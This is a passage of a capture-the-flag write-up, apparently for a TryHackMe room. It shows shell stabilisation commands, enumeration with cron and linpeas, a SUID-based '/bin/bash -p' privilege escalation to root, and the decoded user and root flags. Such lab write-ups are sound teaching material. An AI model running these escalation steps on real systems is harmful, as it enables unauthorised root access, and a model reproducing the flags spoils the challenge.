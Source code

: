 ***

First step is stabilizing our session:

1. python3 -c 'import pty;pty.spawn("/bin/bash")'
2. /usr/bin/script -qc /bin/bash /dev/null
3. CTRL + Z
4. stty raw -echo; fg
5. reset xterm
6. export TERM=xterm
7. export BASH=bash

![](gitbook/cybersecurity/images/Pasted%20image%2020250321161700.png)

Once we've established our shell, let's look around for a way to get into root:

![](gitbook/cybersecurity/images/Pasted%20image%2020250321161942.png)

As seen root is running a script.sh file in the crontab, we cannot write it with `www-data` so, we need either the credentials of `elyana` or look around for other stuff, let's use linpeas:

![](gitbook/cybersecurity/images/Pasted%20image%2020250321162922.png)

We got a lot of binaries enabled, we can use this to get a root shell:

```
/bin/bash -p
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250321163046.png)

We got a root shell by this, let's read both flags:

```
bash-4.4# cat /home/elyana/user.txt
VEhNezQ5amc2NjZhbGI1ZTc2c2hydXNuNDlqZzY2NmFsYjVlNzZzaHJ1c259
```

This is encoded using base64, let's decode:

```
echo 'VEhNezQ5amc2NjZhbGI1ZTc2c2hydXNuNDlqZzY2NmFsYjVlNzZzaHJ1c259' | base64 -d
THM{49jg666alb5e76shrusn49jg666alb5e76shrusn}
```

Let's read root:

```
bash-4.4# cat root.txt
VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9
```

Same as user:

```
echo 'VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9' | base64 -d
THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8}
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250321163201.png)

sudo apt update && sudo apt full-upgrade -y
